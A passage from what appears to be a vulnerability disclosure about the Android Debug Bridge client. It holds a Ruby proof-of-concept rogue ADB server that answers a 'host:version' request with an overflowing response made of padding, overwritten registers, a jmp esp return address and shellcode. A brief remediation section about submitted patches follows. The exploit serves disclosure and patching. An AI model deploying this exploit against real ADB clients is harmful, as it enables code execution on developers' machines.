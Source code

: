   "\xdb\x6a\x01\x58\xcd\x80"

def read_request(cli)
  len = cli.recv(4)
  len = len.to_i(16)
  puts "[*] request length: #{len}"

  buf = cli.recv(len)
  puts "[*] request: #{buf.inspect}"
  buf
end

srv = TCPServer.new 5037
loop {
  puts "[*] Waiting for client..."
  cli = srv.accept
  puts "[*] Accepted client"
	
  req = read_request(cli)
  if req != "host:version"
    puts "[-] incorrect request!"
    next
  end

  res = "OKAY"
  res << "-fff"
  res << ("A" * 112) # padding

  # popped registers
  res << [
    0xc0c00004, # ebx
    0xc0c00008, # esi
    0xc0c0000c, # edi
    0xc0c00010, # ebp
    #0x0810efd3, # eip - int 3 / ret
    0x812a14b, # eip - jmp esp
  ].pack('V*')

  res << payload

  puts "[*] Sending response (0x%x bytes)" % res.length
  cli.write(res)
  cli.close
}
srv.close
{% endhighlight %}
</p>


Remediation
-----------
Upon discovery, patches for both issues were developed and submitted to the Android Security Team. Although Google has not released a new version of the Android SDK Platform Tools as of the time of this publication, they have accepted and applied both patches. The next SDK release will most likely include these fixes. In the meantime, apply the following patches and rebuild your ADB client binary.

